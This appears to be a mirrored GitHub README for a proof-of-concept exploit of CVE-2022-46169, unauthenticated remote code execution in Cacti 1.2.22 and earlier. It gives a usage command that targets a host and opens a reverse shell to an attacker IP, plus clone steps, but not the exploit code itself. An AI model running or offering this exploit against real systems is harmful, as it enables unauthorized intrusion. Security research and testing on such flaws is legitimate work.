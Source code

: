 # CVE-2022-46169

Improved PoC for Unauthenticated RCE on Cacti <= 1.2.22 - CVE-2022-46169

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Safarchand](https://github.com/Safarchand) |
| Url      | [https://github.com/Safarchand/CVE-2022-46169](https://github.com/Safarchand/CVE-2022-46169)                                               |
| Stars    | 1                                                          |
| License  | GNU General Public License v2.0                                                        |

<details>

<summary>Topic / Tags</summary>

* cacti-rce* cve-2022-46169* poc* rce

</details>

## Readme

# CVE-2022-46169

This repository contains a Proof of Concept (PoC) for CVE-2022-46169 - Unauthenticated RCE on Cacti <= 1.2.22. You can read more about the vulnerability [here](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/). The script adds a reverse shell handler and is based on the code written by sAsPeCt488. You can view the original code [here](https://github.com/sAsPeCt488/CVE-2022-46169/blob/main/CVE-2022-46169.py).

### Usage
```
python3 CVE-2022-46169.py -t 10.129.211.250 -i 10.10.14.72 -p 4444

Arguments:
-t : Target IP address 
-i : Attacker system IP Address
-p : Port for reverse shell
```
![image](https://user-images.githubusercontent.com/38681779/235741029-614e629c-3bd3-42db-8327-f5a6c2499ac6.png)

# Credits
* Steven Seeley (mr_me) for discovering the exploit



## Get the content

```
git clone https://github.com/Safarchand/CVE-2022-46169
cd CVE-2022-46169
```

{% embed url="https://github.com/Safarchand/CVE-2022-46169" %}

<figure><img src="https://avatars.githubusercontent.com/u/38681779?v=4" alt=""><figcaption><p>Safarchand</p></figcaption></figure>
